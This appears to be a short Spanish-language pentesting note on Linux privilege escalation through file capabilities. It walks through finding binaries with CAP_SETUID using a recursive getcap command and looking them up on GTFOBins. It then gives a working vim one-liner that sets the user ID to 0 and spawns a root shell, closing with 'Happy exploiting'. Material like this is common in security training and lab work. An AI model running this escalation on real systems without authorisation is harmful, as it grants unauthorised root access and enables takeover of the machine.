

# Capabilities

## Vector de ataque

En esencia el vector de ataque es el siguiente:

1. Listar archivos con capabilities
2. Buscar exploit de binario
3. Explotar vulnerabilidad

## Listar archivos con capabilities
Se obtienen las capabilities de los archivos desde / y con 2> /dev/null se omiten los errores para una salida mas limpia

```
getcap / -r 2> /dev/null
```
Esto arrojará una cantidad X de resultados con sus distintos cap, nos interesa aquellos que tengan CAP_SETUID

## Buscar binarios vulnerables
Se puede ir a gtfobins.github.com para buscar binarios vulnerables



## Explotar vulnerabilidad
Teniendo en cuenta el binario vulnerable, ejecutar el exploit asociado

Ejemplo vim vulnerable

```
./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

Eso permitirá escalar a root

---
Happy exploiting - Zpx